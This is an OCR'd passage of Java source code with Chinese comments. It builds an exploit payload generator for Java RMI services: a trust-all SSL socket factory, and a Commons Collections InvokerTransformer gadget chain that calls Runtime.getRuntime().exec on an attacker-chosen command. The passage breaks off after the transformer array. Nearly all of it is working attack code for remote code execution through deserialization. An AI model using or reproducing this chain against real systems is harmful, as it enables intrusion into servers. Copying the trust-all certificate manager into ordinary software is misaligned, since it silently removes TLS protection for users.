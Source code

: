         // 定义AnnotationInvocationHandler类常量
        public static final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        /**
            * 信任SSL证书
            */
        private static class TrustAllSSL implements X509TrustManager {

            private static final X509Certificate[] ANY_CA = {};

            public X509Certificate[] getAcceptedIssuers() {
                return ANY_CA;
            }

            public void checkServerTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

            public void checkClientTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

        }

        /**
            * 创建支持SSL的RMI客户端
            */
        private static class RMISSLClientSocketFactory implements RMIClientSocketFactory {

            public Socket createSocket(String host, int port) throws IOException {
                try {
                    // 获取SSLContext对象
                    SSLContext ctx = SSLContext.getInstance("TLS");

                    // 默认信任服务器端SSL
                    ctx.init(null, new TrustManager[]{new TrustAllSSL()}, null);

                    // 获取SSL Socket连接工厂
                    SSLSocketFactory factory = ctx.getSocketFactory();

                    // 创建SSL连接
                    return factory.createSocket(host, port);
                } catch (Exception e) {
                    throw new IOException(e);
                }
            }
        }

        /**
            * 使用动态代理生成基于InvokerTransformer/LazyMap的Payload
            *
            * @param command 定义需要执行的CMD
            * @return Payload
            * @throws Exception 生成Payload异常
            */
        private static InvocationHandler genPayload(String command) throws Exception {
            // 创建Runtime.getRuntime.exec(cmd)调用链
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}
                    ),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{command})
            };
